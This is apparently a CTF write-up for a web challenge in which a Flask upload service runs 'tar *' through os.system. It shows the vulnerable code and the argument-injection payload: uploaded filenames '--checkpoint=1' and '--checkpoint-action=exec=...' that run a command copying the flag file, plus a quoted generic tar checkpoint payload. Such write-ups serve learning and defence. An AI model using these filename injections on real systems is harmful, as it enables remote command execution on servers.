


# web/arguments-writeup

## Challenge Description

We are given a website that basically perform 2 tasks:

- Uploading files
- Downloading the tar of all uploaded files

the source code of both these functionalities are as given:
```python
# upload file
@app.route('/api/upload', methods=['POST'])
def upload():
    file = request.files.get('file', None)
    if file is None:
        return 'No file provided', 400
    
    # check for path traversal
    if '..' in file.filename or '/' in file.filename:
        return 'Invalid file name', 400
    
    # check file size
    if len(file.read()) > 1000:
        return 'File too large', 400
    
    file.save(f'uploads/{g.uuid}/{file.filename}')
    return 'Success! <script>setTimeout(function() {window.location="/"}, 3000)</script>', 200


# download file
@app.route('/api/download', methods=['GET'])
def download():
    @after_this_request
    def remove_file(response):
        os.system(f"rm -rf uploads/{g.uuid}/out.tar")
        return response

    # make a tar of all files
    os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")

    # send tar to user
    return send_file(f"uploads/{g.uuid}/out.tar", as_attachment=True, download_name='download.tar', mimetype='application/octet-stream')

```

## Solution

We tried fuzzing with the filename parameter and zip slips to read server files but with no success. Also, only been able to read server files would have been a waste because we didn't knew the name of the flag as it was randomized ( in Dockerfile):

```Dockerfile
RUN mv /flag.txt /flag_$(cat /dev/urandom | tr -dc a-f0-9 | fold -w32 | head -n1)
```

So what we actually needed was RCE. Learning about various vulnerabilities that could give us RCE, we discovered that the command
```python
os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")
```
was actually vulnerable to `TAR Command Execution`, which could give us RCE.
Upon learning about the `TAR Command Execution`, we found out that 

 `By using tar with –checkpoint-action options, a specified action can be used after a checkpoint`. 
 


 Upon looking for payloads, we found this on PayloadOfAllThings:
 
 ```
 --checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (your exploit code is here)
```

After that we tried uploading files with these name 
`--checkpoint-action=exec=python3 -c "import os;x = chr(47);os.system(f'cp {x}flag* .')"` and `--checkpoint=1`. It should have basically copied the flag to this current directory when  `tar * ` command is run, but this resulted in internal server error. 

The error didn't occured when we uploaded an arbitriary file before these files. After we hit the download button we recieved only the arbitriary file we uploaded. But after refreshing the page, file listing showed an additional file named `flag_89bb6db3a579141b2cd5c7d01fedf863` 
.




After downloading the tar again and reading the `flag_89bb6db3a579141b2cd5c7d01fedf863` file, we get the flag:


`byuctf{argument_injection_stumped_me_the_most_at_D3FC0N_last_year}`